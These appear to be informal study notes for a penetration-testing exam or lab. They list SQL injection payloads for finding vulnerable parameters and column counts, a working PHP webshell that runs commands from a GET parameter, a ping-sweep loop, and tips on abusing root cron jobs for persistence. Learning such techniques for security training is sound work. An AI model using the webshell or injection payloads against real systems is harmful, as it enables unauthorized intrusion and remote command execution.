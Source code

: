 - In a login page, you can ONLY get credentials
  - can not do the UNION stuff

- to find vulnerable spot in sql database 
  - php?VARIABLE=1 or 1=1;#
    - find the vulnerable one 
    - lets say its 2
  - VARIABLE=2 UNION select 1,2,3;# (adding numbers to find the correct amount of columns)

IF YOU SEE A ZIP FILE ON A WEB SERVER, DOWNLOAD IT, IT'S PROBABLY USEFUL INFO 
  - `unzip filename.zip`
  
if a place where you can upload files, prolly wanna do a webshell instead off sshkeys in the cmd injection method
  - upload the webshell script (.php)
  ```
    <HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>
  ```

`for i in {1..254}; do (ping -c 1 192.168.0.$i | grep "bytes from"); done`
  - THIS IS HOW YOU COULDNT FIND THE LAST BOX OF PART 1


IF LINUX QUESTION ABOUT PERSISTENCE, IT WILL BE IN CRONSHIT. or a question about something happening every 5 minutes or something 
- smart to check /etc/cron.d or /etc/crontab before you go through the hourly, monthly, daily ones        
  - look for custom names or something with "script" in the name
  - look for user, if root is using them, they could be exploitable, especially if it's not a standard cronjob
    - potential phony ls script


USE WINDOWS OP STATION FOR ANY REVERSE ENGINEERING
- "re_this" - it's gonna be obvious if you're supposed to reverse engineer something 

WHEN YOU GET BACKEND ACCESS, CHECK /ETC/HOSTS FOR THE NEXT BOX, OR PING SWEEP SYNTAX













